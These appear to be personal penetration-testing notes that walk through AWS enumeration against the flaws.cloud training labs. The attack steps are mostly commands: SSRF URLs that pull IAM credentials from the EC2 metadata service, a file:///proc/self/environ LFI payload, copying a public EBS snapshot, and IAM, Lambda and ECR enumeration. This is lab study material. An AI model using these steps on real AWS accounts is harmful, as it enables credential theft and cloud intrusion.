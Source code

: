 ```yaml
---
{"dg-publish":true,"permalink":"/1-hack-like-a-script-kiddie/clouds/aws/2-aws-enumeration-process/","noteIcon":"","created":"2025-04-15T14:11:19.592-04:00"}
---
```






# 0. Steps 
Google Dorking
Github Repos
Pivot from compromised computer with AWS Keys
Pivot from compromised AWS environment. 

# 1. Step 
```
dig +nocmd flaws.cloud any +multiline +noall +answer

dig <DNS>

nslookup <ip> 

aws s3 ls s3://flaws.cloud --no-sign-request


```

# 1.1 Attacking EC2
AWS allows you to make snapshots of EC2's and databases (RDS). Attack credentials in backups. 

1. Get credentials
2. Get Account ID
```
aws --profile flaws sts get-caller-identity
```
3. Get Snapshot and Volume info
	1. Snapshots go across regions
	2. Volume stays in the same region as the snapshot. 
```
aws --profile mine ec2 describe-snapshots --owner-id 975426262029 

```
4. Get Permission info
```
aws ec2 describe-snapshot-attribute --snapshot-id snap-0b49342abd1bdcb89 --attribute createVolumePermission --profile flaws
```
 5.  Create Volume in my account using the snapshot
```
 aws ec2 create-volume --availability-zone us-west-2c --region us-west-2 --snapshot-id snap-0b49342abd1bdcb89 --profile mine

```

## 1.2 Steal EC2 Metadata credential via SSRF

Metadata service can be access at the following addresses from EC2 instances using Instance Metadata Service (IMDS)
```
http://169.254.169.254/latest/meta-data/

http://[fd00:ec2::254]/latest/meta-data/

OR Try LFI
http://container.target.flaws2.cloud/proxy/file:///proc/self/environ




```

### 1.2.1 Steps
1. Gather user info from IMDS 
https://hackingthe.cloud/aws/exploitation/ec2-metadata-ssrf/
```
# curl webaddress/proxy/IMDS
e.g. 
curl 
http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/169.254.169.254/latest/meta-data/

169.254.170.2/v2/credentials/

http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/169.254.169.254/latest/meta-data/iam/security-credentials/
ALSO try

http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/169.254.169.254/latest/meta-data/iam/security-credentials/*role_name*/



```
3. Create profile 
```
> aws configure --profile <new user>
> aws configure set aws_session_token <SESSIONTOKENHERE>

## Update profiles
~/.aws/credentials

## Access the hidden folder
aws s3 ls s3://level6-cc4c404a8a8b876167f5e70a7d8c9880.flaws.cloud --profile flaws5

```

## 1.3 Custom Policy
```
# Create a target user
$ aws configure --profile <new user>

# Check user
aws --profile <new user> iam get-user

# Check user policy
aws --profile <new user> iam list-attached-user-policies --user-name Level6

OR 
cloudfox --> check permission.csv

# Get policy info and version info
aws --profile flaws6 iam get-policy --policy-arn arn:aws:iam::975426262029:policy/list_apigateways

# View a specific version
aws --profile flaws6 iam get-policy-version --policy-arn arn:aws:iam::975426262029:policy/list_apigateways --version-id v4
 ## Restapi indicates lambda


# get Lambda policy
aws --region us-west-2 --profile level6 lambda get-policy --function-name Level6



# List Lambda functions
aws --profile flaws6 lambda list-functions --region us-west-2

# Get the specific function info
aws --profile flaws6 lambda get-policy --region us-west-2 --function-name Level6

# OR Check cloudfox
resource-trusts or lambda

# Based on the previous command, s33ppypa75 is restapi ID.
"Resource": "arn:aws:apigateway:us-west-2::/restapis/*"   

arn:aws:execute-api:us-west-2:975426262029:s33ppypa75/*/GET/level6\"}

# Search for other policy
aws --profile flaws6 --region us-west-2 apigateway get-stages --rest-api-id "s33ppypa75"

```

ARN = Amazon Resource Names
https://docs.aws.amazon.com/IAM/latest/UserGuide/reference-arns.html
```
arn:partition:service:region:account-id:resource-type/resource-id

```

# 1.4 Credentials
EC2 : Metadata service 169.254.169.254
Lambda : Environment variables


## 1.5 Elastic Container Registry  (ECR)

![](https://i.imgur.com/iUpMNSX.png)



Amazon Elastic Container Registry (Amazon ECR) is a fully managed container registry offering high-performance hosting, so you can reliably deploy application images and artifacts anywhere.
```
$  aws ecr help

$  aws sts get-caller-identity --profile flaws2

$ aws ecr describe-images --profile flaws2 --repository-name level2

$ aws ecr list-images --profile flaws2 --repository-name level2 

$ aws ecr list-images --repository-name level2 --registry-id 653711331788


OPTION1 Docker
aws ecr get-login-password --profile <user>

docker login -u AWS -p eyJwYXlsb2FkIjoibzB..U5ODU5fQ==  https://653711331788.dkr.ecr.us-east-1.amazonaws.com

docker pull 653711331788.dkr.ecr.us-east-1.amazonaws.com/level2:latest

or docker image ls
 --> docker inspect <Image ID>
docker image history <image ID> --no-trunc




OPTION2 AWS CLI
 aws sts get-caller-identity --profile flaws2



aws ecr batch-get-image --repository-name level2 --registry-id 653711331788 --image-ids imageTag=latest --profile flaws2|jq '.images[].imageManifest|fromjson'


aws ecr get-download-url-for-layer --repository-name level2 --layer-digest "sha256:2d73de35b78103fa305bd941424443d520524a050b1e0c78c488646c0f0a0621" --profile flaws2






```


# 2. Tools

[AWS -Tools](AWS%20-Tools.md)


